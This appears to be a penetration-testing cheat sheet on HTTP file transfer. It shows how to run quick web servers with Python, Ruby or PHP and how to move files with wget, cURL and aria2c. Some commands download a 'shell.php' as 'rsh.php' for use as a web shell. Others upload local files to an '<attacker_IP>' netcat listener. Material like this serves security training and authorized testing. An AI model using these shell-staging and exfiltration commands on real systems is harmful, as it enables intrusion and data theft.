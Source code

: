# HTTP

## 01 - Server Setup

### 1.1 - Python

Note: by default it runs the service with port 8000 if it is not specified

`$ sudo python2 -m SimpleHTTPServer 80`

`$ sudo python3 -m http.server 80`

### 1.2 - Ruby

- **Host a webserver via Ruby**

Note: you'll need to install webrick for ruby (by default it'll use port 8080 if port is not specified)

- To install the ruby gem:

`$ gem install webrick`

- To install in Debian/Ubuntu

```
$ sudo apt install ruby-webrick

$ sudo ruby -run -ehttpd . -p80
```

### 1.3 - PHP

- **Host a webserver via PHP**

`$ sudo php -S 0.0.0.0:80`

## 02 - Usage

### 2.1 - Download

#### 2.1.1 - Wget

```
$ wget -O rsh.php http://<IP>:<PORT>/shell.php

$ wget --no-check-certificate https://<IP>/file.tar.gz
```

- **Resume partially downloaded file**

`$ wget -c http://<IP>/file.tar.gz`

- **Download multiple files with different URLs from a text file list**

`$ wget -i download-files-urls.txt`

#### 2.1.2 - cURL

```
$ curl -O -C - http://<IP>:<PORT>/shell.php

$ curl -o rsh.php http://<IP>:<PORT>/shell.php

$ curl -k -o downloaded.tar.gz https://<IP>/file.tar.gz
```

- Interact with http proxy server tunnel

`$ curl -p -x http://<proxy_IP> http://website.com`

#### 2.1.3 - aria2c

`$ aria2c http://<IP>/file.tar.gz`

### 2.2 - Upload

#### 2.2.1 - Wget

```
$ wget --post-file=file.txt <attacker_IP>

$ sudo nc -lnvp 80
```

#### 2.2.2 - cURL

`$ curl -T /path/to/file.txt http://<IP>`

- Upload file via post request form

`$ curl -F file=@/path/to/file.txt http://<IP>/post`

- Upload file via post HTTP request

```
$ curl -X POST -d @/path/to/file.txt <IP>

$ sudo nc -lnvp 80 > file.txt
```